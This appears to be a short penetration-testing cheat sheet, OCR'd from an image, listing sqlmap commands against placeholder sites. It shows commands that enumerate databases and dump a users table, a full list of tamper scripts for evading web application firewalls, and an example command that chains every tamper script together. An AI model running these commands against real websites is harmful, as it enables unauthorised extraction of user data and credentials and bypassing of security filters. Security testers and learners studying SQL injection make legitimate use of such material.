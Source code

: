 	sqlmap -u http://blabla.com/ --data "name=ghost&password=ghost" --batch --level 5 --risk 3 -b --threads 10

	sqlmap -u "http://testsite.com/login.php" --dbs
	sqlmap -u "http://testsite.com/login.php" -D site_db --tables
	sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
	sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns

### Tamper scripts  

	apostrophemask
	apostrophenullencode
	appendnullbyte
	base64encode
	between
	bluecoat
	chardoubleencode
	charencode
	charunicodeencode
	concat2concatws
	equaltolike
	greatest
	halfversionedmorekeywords
	ifnull2ifisnull
	modsecurityversioned
	modsecurityzeroversioned
	multiplespaces
	nonrecursivereplacement
	percentage
	randomcase
	randomcomments
	securesphere
	space2comment
	space2dash
	space2hash
	space2morehash
	space2mssqlblank
	space2mssqlhash
	space2mysqlblank
	space2mysqldash
	space2plus
	space2randomblank
	sp_password
	unionalltounion
	unmagicquotes
	versionedkeywords
	versionedmorekeywords

- Example of command:

		sqlmap -u 'http://www.site.com:80/search.cmd?form_state=1’ --level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
